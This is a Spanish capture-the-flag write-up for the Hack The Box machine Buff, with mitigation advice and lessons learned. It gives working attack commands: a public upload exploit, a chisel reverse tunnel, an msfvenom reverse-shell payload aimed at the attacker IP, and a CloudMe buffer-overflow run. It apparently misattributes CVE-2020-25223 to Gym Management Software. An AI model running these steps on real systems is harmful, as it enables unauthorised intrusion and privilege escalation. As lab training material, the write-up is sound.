

# Buff

[{ .maquina-icono }](https://app.hackthebox.com/machines/Buff)

## Resumen

Servidor web Windows que corre **Gym Management Software 1.0**, vulnerable a subida de
ficheros sin autenticación (CVE-2020-25223), que da ejecución remota como `shaun`. Para
la escalada, el servicio **CloudMe** corre solo en local (`127.0.0.1:8888`) y es
vulnerable a un *buffer overflow*; con un túnel de **chisel** se expone ese puerto a la
máquina atacante y, explotándolo con una shellcode propia, se obtiene acceso como
administrador.

## Reconocimiento

Primero hacemos un ping para ver el TTL y determinar el sistema operativo:

```
64 bytes from 10.129.25.107: icmp_seq=1 ttl=127 time=60.1 ms
```

Por el TTL (cercano a 128) se trata de una máquina Windows.

## Enumeración

### Puertos y servicios

```
nmap -p- --open -T4 --min-rate 5000 10.129.25.107 > ports
```

```
7680/tcp open  pando-pub   syn-ack ttl 127
8080/tcp open  http-proxy  syn-ack ttl 127
```

En el 7680 corre `pando-pub` (compartición de actualizaciones entre equipos), que no
destaca por ser vulnerable. Detallamos los servicios:

```
nmap -p 8080,7680 -sVC -Pn --min-rate 5000 -T4 10.129.25.107 > targeted
```

```
8080/tcp open  http   Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
```

Apache 2.4.43 tiene CVE de *buffer overflow* asociadas (CVE-2020-11984, CVE-2020-9490) y
PHP 7.4.6 también (CVE-2020-7068). Lanzamos el script `vuln` de nmap para una primera
visión:

```
nmap -p 8080 --script vuln -Pn -vvv -T4 --min-rate 5000 10.129.25.107 > vulns
```

Solo salen posibles CSRF en los formularios de registro/login, nada aprovechable.

### La aplicación: Gym Management Software 1.0

Revisando la web, en `contact.php` aparece esta línea:

```
Made using Gym Management Software 1.0
```

**Gym Management Software 1.0** es un software de gestión de gimnasios con la
**CVE-2020-25223**: una subida de archivos sin autenticación que permite ejecución
remota de comandos.

## Explotación

Conocido el software, usamos el exploit público `php/webapps/48506.py`. Abrimos un
listener en Metasploit (`multi/handler`, con `set LHOST` a nuestra IP) y en otra terminal
lanzamos el exploit:

```
sudo python2 /usr/share/exploitdb/exploits/php/webapps/48506.py http://10.129.25.107:8080/
```

Recibimos una shell como `shaun`. No es una shell interactiva completa, pero es
suficiente para leer la primera flag:

```
type C:\Users\shaun\Desktop\user.txt
```

## Escalada de privilegios

### Un servicio solo en local: CloudMe

Enumerando la red interna con `ipconfig` y, sobre todo, los puertos en escucha:

```
netstat -ano
```

Vemos un servicio escuchando **solo en localhost** en el puerto 8888:

```
TCP    127.0.0.1:8888    0.0.0.0:0    LISTENING    3504
```

Averiguamos qué proceso es ese PID:

```
tasklist /svc | findstr 3504
```

Es **CloudMe**. Con `searchsploit cloudme` encontramos varios exploits de *buffer
overflow*; usaremos `windows/remote/48389.py`.

### Túnel con chisel

Como CloudMe solo escucha en `127.0.0.1`, no podemos atacarlo directamente desde fuera.
Hacemos **pivoting** con chisel: montamos un servidor en nuestra máquina y la víctima se
conecta de vuelta, reenviando su puerto 8888 local hasta nosotros.



En nuestra máquina (Kali):

```
./chisel server -p 8000 --reverse       # espera la conexión
python3 -m http.server 80               # para que la víctima descargue chisel.exe
nc -lvnp 4444                           # aquí caerá la shell de administrador
```

En la víctima (tras descargar `chisel.exe` desde nuestro servidor web):

```
chisel.exe client 10.10.16.120:8000 R:8888:127.0.0.1:8888
```

Con esto, el `127.0.0.1:8888` de Buff queda accesible en nuestro propio `127.0.0.1:8888`.

### Explotar CloudMe

Preparamos una shellcode propia con msfvenom, excluyendo los *bad chars* típicos de un
*buffer overflow*:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.120 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f python -v buf
```

Usamos la variable `buf` para que cuadre con el script y `-f python` para integrarla
fácilmente. Pegamos esa shellcode en `48389.py` y ajustamos el objetivo a
`127.0.0.1:8888` (el extremo del túnel). Al ejecutar el exploit, el desbordamiento
dispara nuestra shellcode y recibimos la conexión en el `nc -lvnp 4444`, ya como
**administrador** (CloudMe corre con privilegios elevados).

Con esa shell leemos la flag de root:

```
type C:\Users\Administrator\Desktop\root.txt
```

## Mitigación

- **Actualizar o retirar Gym Management Software 1.0**: la subida de ficheros sin
  autenticación (CVE-2020-25223) permite ejecución remota; no debe exponerse a la red.
- **Validar las subidas de ficheros**: comprobar extensión y tipo real, y guardarlas
  fuera del *document root* para que no se puedan ejecutar.
- **Actualizar CloudMe** a una versión sin el *buffer overflow*, y no ejecutar servicios
  vulnerables con privilegios elevados.
- **Principio de mínimo privilegio**: que un servicio local comprometido no conceda
  directamente permisos de administrador reduce el impacto de la escalada.

## Qué he aprendido

- Cuando un servicio escucha solo en `127.0.0.1`, no está «a salvo»: con *pivoting*
  (aquí con chisel) se puede alcanzar desde fuera y explotar igualmente.
- Un *buffer overflow* casero obliga a cuidar los *bad chars* (`\x00`, `\x0a`, `\x0d`),
  que rompen la shellcode si no se excluyen.
- La pista estaba en un detalle del pie de página (`Gym Management Software 1.0`): leer
  la web entera es parte de la enumeración.
